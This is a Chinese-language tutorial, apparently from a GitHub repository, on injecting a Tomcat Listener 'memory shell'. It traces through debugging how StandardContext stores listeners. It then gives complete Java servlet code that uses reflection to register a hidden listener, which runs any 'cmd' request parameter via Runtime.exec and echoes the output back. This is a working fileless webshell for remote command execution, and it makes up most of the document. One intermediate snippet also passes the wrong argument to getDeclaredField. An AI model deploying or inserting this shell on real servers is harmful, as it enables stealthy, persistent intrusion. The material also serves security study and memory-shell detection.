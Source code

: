 # Listener内存马

Tomcat有三大组件，Listener，Servlet，Filter，而Listener是最先加载的，其他两个组件可以用来做内存马，Listener也不例外，可以想办法动态注册到运行程序中，注入内存马

```
package Listener;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;

public class TestListener implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("destroy");
    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        System.out.println("init");
    }
}

```

先在tomcat中注册一个Listener看看效果，需要在web.xml中注册

![QQ_1726449173253](images/1.png)

运行后执行了代码

![QQ_1726449248280](images/2.png)

## 分析过程

我们需要的目的是动态注册一个Listener，所以来分析一下在tomcat中的listener从哪里取出来的

在requestInitialized下一个断点，看到了调用栈

![QQ_1726449468704](images/3.png)

可以看到是从StandarContext调用的，追踪这个instance参数

![QQ_1726449559332](images/4.png)

发现是从getApplicationEventListeners获取的一个Object数组，遍历得到Listener

![QQ_1726449623583](images/5.png)

可以看到就是取applicationEventListenersList的值，并起在同一类中的addApplicationEventListener会将listener添加到这个数组里面去，那思路就很明确了，我们可以获取StandarContext对象，调用applicationEventListenersList动态注册一个我们自己的listener

## 代码编写

首先需要获取到StandarContext，在ServletRequestEvent中存在getServletRequest方法，可以拿到请求的request对象

![QQ_1726449875291](images/6.png)

```
HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
ServletContext servletContext = request.getServletContext();
```

![QQ_1726450140428](images/7.png)

在ApplicationContextFacade中的context是ApplicationContext类型

![QQ_1726459765240](images/8.png)

通过ServletContext可以获取到ApplicationContext

![QQ_1726450190441](images/9.png)

而Application中的context的类型是StandarContext，所以可以用两次反射来获取到当前的StandarContext

```
ServletContext servletContext = request.getServletContext();
try {
    Field field1 = servletContext.getClass().getDeclaredField("context");
    field1.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) field1.get(servletContext);
    
    Field field2 = applicationContext.getClass().getDeclaredField(servletContext);
    field2.setAccessible(true);
    StandardContext standardContext = (StandardContext) field2.get(applicationContext);
} catch (NoSuchFieldException e) {
    throw new RuntimeException(e);
} catch (IllegalAccessException e) {
    throw new RuntimeException(e);
}
```

接下来就编写带回显的Listener了，但是目前我们只拿到了HttpServletRequest对象，并没有拿到response对象，需要通过这个request对象去获取response对象

```
Field field = req.getClass().getDeclaredField("request");
field.setAccessible(true);
Request request1 = (Request) field.get(req);
HttpServletResponse response = request1.getResponse();
response.getWriter().write(line);
```

# 完整代码

```
package Servlet;

import org.apache.catalina.connector.Request;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;

import javax.servlet.ServletContext;
import javax.servlet.ServletException;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Field;

@WebServlet("/listener")
public class ListenerServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        class AddListener implements ServletRequestListener {
            @Override
            public void requestDestroyed(ServletRequestEvent sre) {
                try {
                    HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
                    if (req.getParameter("cmd") != null) {
                        String cmd = req.getParameter("cmd");
                        InputStream inputStream = null;
                        inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                        BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(inputStream));
                        String line = null;
                        while (((line = bufferedReader.readLine()) != null)) {
                            Field field = req.getClass().getDeclaredField("request");
                            field.setAccessible(true);
                            Request request1 = (Request) field.get(req);
                            HttpServletResponse response = request1.getResponse();
                            response.getWriter().write(line);
                        }
                    }
                } catch (Exception e) {
                    e.printStackTrace();
                }
            }

            @Override
            public void requestInitialized(ServletRequestEvent sre) {
            }
        }

        try {
            ServletContext servletContext = req.getSession().getServletContext();
            Field field1 =  servletContext.getClass().getDeclaredField("context");
            field1.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) field1.get(servletContext);

            Field field2 = applicationContext.getClass().getDeclaredField("context");
            field2.setAccessible(true);
            StandardContext standardContext = (StandardContext) field2.get(applicationContext);

            AddListener addListener = new AddListener();
            standardContext.addApplicationEventListener(addListener);
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        super.doPost(req, resp);
    }
}

```

访问servlet注册恶意的listener

![QQ_1726460199119](images/10.png)